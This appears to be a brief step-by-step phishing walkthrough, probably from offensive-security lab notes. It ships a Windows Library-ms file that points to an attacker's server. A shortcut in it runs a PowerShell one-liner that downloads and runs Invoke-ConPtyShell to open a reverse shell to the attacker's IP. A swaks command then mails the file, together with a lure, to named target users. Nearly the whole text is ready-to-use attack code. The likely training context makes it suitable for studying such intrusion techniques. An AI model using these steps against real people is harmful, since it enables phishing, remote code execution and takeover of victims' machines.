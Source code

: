 Step 1: Change IP in the following code. Save it with name `config.Library-ms`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.195</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Step 2: Create a shortcut on windows with a reverse shell (Save it as `automatic_configuration`)
```powershell
powershell.exe -c "IEX(IWR http://192.168.45.195:8000/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.195 3001"
```

Step 3: Create a `body.txt` with a phishing content to convince the user to click on the shortcut

Step 4: Send the `config.Library-ms` & `body.txt` to the target user
```sh
# If using SMTP, use swaks (-ap for authentication)
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```